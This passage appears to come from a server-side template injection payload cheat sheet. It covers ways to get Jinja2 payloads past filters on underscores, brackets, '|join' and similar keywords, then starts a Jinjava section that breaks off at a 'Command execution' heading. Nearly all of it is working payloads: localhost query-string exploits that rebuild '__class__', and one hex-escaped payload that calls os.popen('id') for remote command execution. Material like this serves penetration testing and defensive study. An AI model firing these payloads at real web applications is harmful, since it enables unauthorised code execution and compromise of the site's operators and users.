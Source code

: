 Bypassing `_`

```python
http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

Bypassing `[` and `]`

```python
http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
or
http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

Bypassing `|join`

```python
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

Bypassing most common filters ('.','_','|join','[',']','mro' and 'base') by https://twitter.com/SecGus:
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

---

## Jinjava

[Official website](https://github.com/HubSpot/jinjava)
> Java-based template engine based on django template syntax, adapted to render jinja templates (at least the subset of jinja in use in HubSpot content).

### Jinjava - Basic injection

```python
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```

Jinjava is an open source project developed by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

### Jinjava - Command execution
